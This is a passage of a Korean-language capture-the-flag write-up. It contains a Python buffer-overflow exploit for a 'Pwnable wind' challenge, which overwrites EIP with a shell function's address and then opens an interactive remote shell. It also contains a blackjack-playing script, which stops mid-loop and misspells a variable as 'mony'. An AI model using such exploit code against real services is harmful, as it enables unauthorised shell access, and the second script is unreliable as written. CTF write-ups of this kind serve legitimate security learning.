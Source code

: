 
## 0x05 Pwnable wind [100]
- 문제의 컨셉을 파악하기도 전에 취약점이 보여서 그냥 해봤는데... 됐어요.
- 쉘을 제공해주는 코드가 있었기 때문에 eip를 컨트롤할 수 있는 상황에서 해당 코드로 eip를 변조하였음.

```python
import socket
from struct import *

p32 = lambda x:pack("<L",x)
host = "223.194.105.182"
port = 22901

def until(msg):
	data = ''
	while True:
		data += s.recv(1)
		if msg in data:
			return data

s = socket.socket()
s.connect((host, port))

print until("It's for my baby!")

shell_addr = 0x080483DB
payload = "a" * 32
payload += p32(shell_addr)

until("[+] TYPING THIS: ")
r_str = s.recv(1)
until("[+] INPUT: ")
s.send(payload + "\n")
r_msg = s.recv(1024)

while True:
	cmd = raw_input("> ")
	s.send(cmd + "\n")
	print s.recv(1024)
```

## 0x06 prog Catch JACK If you can [50]
- 딜러가 항상 올바른 선택을 하지 않음.
- 내 카드 총합이 15가 넘지 않을때 카드를 받는게 승률이 높다는것을 테스트로 확인함.
- 코드를 돌려놓으니 키를 획득.

```python
import socket

while True :
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        server_address = ('223.194.105.182', 28345)
        sock.connect(server_address)

        recvdata = sock.recv(10000)
        recvdata = sock.recv(10000)
        print recvdata

        while True:
                money = recvdata.split('~')
                money = mony[1].split(')')

                if int(money[0]) < 30000:
                        break;
```